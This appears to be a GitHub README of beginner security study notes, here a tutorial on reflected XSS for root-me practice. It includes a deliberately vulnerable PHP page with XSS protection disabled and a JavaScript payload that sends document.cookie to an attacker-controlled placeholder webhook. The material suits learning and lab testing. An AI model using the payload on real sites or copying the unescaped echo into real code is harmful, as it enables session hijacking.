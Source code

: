 # InfoSec related notes 

I have started to write down notes on security related resources I've been scanning.
This resource might be helpful for people just getting started with Information Security and for future blog posts by me.  

## License

[![CC BY-NC-SA 4.0](https://i.creativecommons.org/l/by-nc-sa/4.0/88x31.png)](http://creativecommons.org/licenses/by-nc-sa/4.0/)  

This work is licensed under a [Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License](http://creativecommons.org/licenses/by-nc-sa/4.0/).  

## The Notes Themselves
> Influenced by LiveOverFlow's youtube channel, and some additional resources 
> Videos [here](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)
> root-me platform [here](https://root-me.org)  

[comment]: <> (description will be added)  

### Web - XSS
Written on Sep 6 2019
> Influenced by a plethora of tasks on  [rootme](https://root-me.org/)
> and a LOT of googling  

Note that in order to play with XSS, you need to disable browser protection,
The following php codes must include:  
`
header("X-XSS-Protection: 0");
`  
You can read about this at [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
The HTTP X-XSS-Protection response header is a feature of Internet Explorer, Chrome and Safari that stops pages from loading when they detect reflected cross-site scripting (XSS) attacks. Although these protections are largely unnecessary in modern browsers when sites implement a strong Content-Security-Policy that disables the use of inline JavaScript ('unsafe-inline'), they can still provide protections for users of older web browsers that don't yet support CSP.
Albeit this will be futher explained later at this note.  

Also, you can find payloads to play with at [HTML5 Security Cheatsheet](http://html5sec.org/)   

#### 1. XSS - reflected  
   It is recommended that you try to read more about this in the docs section of root-me and try to solve a challenge for practice.  
   Initial code:  
   ```php
   <?php 
   // header included here
   // you will need a php server to run the example 
   // you can use the default php server by running
   // php -s localhost:80
   // read more about php built-in we server here
   // https://www.php.net/manual/en/features.commandline.webserver.php
   ?>
   
   <html>
    <body>
        <h1> <?php echo "Hello".$GET['try']</h1>
        <!--
        This will output the concat result of Hello and what you supply as argument to the ?try parameter
        localhost:80/yourcode.php?try={payload later goes here}
        -->
    </body>
   </html>
   ```  
   supplying 
   ```javascript
   <script>console.log(1)</script>
   ``` 
   as input will be reflected in the webpage, thus the name **reflected Cross Site Scripting**  
   Of course writing to the console is boring, however this proves that we have code execution the context of the browser, an attacker may then leverage the full capabilities of JS with the ability to steal JS-accessible cookies which is usually the case for a session hijacking attack.  
   Read more about cookies and scoping [here](https://developer.mozilla.org/fr/docs/Web/API/Document/cookie)  
   Let's make our first payload. However, we will need some kind of session cookie. This can be done by  
   ```php
   <?php
   // Starting session
   // this will create cookies
   // you can them by viting the developer tools  
   session_start();
   ?>
   ```
   The session_start() function first checks to see if a session already exists by looking for the presence of a session ID. If it finds one, i.e. if the session is already started, it sets up the session variables and if doesn't, it starts a new session by creating a new session ID.  
   [official manual](https://www.php.net/manual/fr/function.session-start.php)  
   To our first test, let's try to steal the cookies:
   payload:
   ```javascript
   let element = document.createElement("img");
   element.setAttribute("src", "webhookurl/?"+document.cookie);
   document.body.appendChild(element);
   ```  
   The example above, gets the document cookie and appends it to the url of an attacker's controlled webhook.  
   _Note: Don't forget to urlencode_  
   for more advanced attack vectors try HTTP parameter pollution.  
   Read about that [here](https://www.owasp.org/index.php/4.8.1_Test_de_Reflected_Cross-Site_Scripting_(OTG-INPVAL-001))  
   Its time for you to go to rootme and play.  
   Additional for CTF creation: 
   **Check PhantomJS the scriptable headless browser, or selenium on python if you want to automate the behavior of a user**  
